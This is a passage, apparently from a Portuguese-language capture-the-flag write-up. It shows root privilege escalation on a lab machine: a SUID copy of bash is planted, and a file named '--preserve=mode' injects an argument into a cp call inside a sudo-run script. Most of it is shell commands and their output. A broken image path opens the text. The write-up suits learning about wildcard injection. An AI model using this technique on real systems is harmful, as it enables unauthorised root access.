 ```bash
bindmgr@dynstr:/tmp/tmp.PdP9Qf49qx$ ls -l
total 0
-rw-rw-r-- 1 bindmgr bindmgr 0 Aug 16 19:15 file.sh
-rw-rw-r-- 1 bindmgr bindmgr 0 Aug 16 19:15 test.txt
bindmgr@dynstr:/tmp/tmp.PdP9Qf49qx$ echo *
file.sh test.txt
```

Isso poderia ser explorado de modo a abusar da execução do `cp`, copiando um arquivo previamente configurado com SUID, permitindo a escalação de privilégios na sequência.

Este comportamento foi alcançado a partir da execução dos seguintes passos:

- Copiado o arquivo `/bin/bash` para um diretório temporário e ajustado o SUID bit, assim como criado um arquivo `.version` contendo uma versão inicial.

```bash
bindmgr@dynstr:/tmp$ cd $(mktemp -d)
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ cp /bin/bash .
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ chmod u+s bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo 1 > .version
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ ls -la
total 1168
drwx------  2 bindmgr bindmgr    4096 Aug 16 19:22 .
drwxrwxrwt 13 root    root       4096 Aug 16 19:22 ..
-rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:22 bash
-rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:22 .version
```

- Criado também um arquivo chamado `--preserve=mode`, de forma que seu nome seja interpretado como um parâmetro para a execução do `cp`, copiando o binário `bash`, porém mantendo o SUID configurado. Podemos confirmar este comportamento a partir do comando `echo`, também abaixo:

```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo "" > ./--preserve=mode
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo *
bash --preserve=mode
```

- Executei o script usando o `sudo`

```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.7i6oryDsae.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors:
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```

- Executei o binário `bash` com o parâmetro `-p`, conforme orientado na página [bash \| GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid), o que me permitiu um shell interativo com a conta `root`, a partir da qual fui capaz de ler o conteúdo do arquivo `/root/root.txt` :smiley:
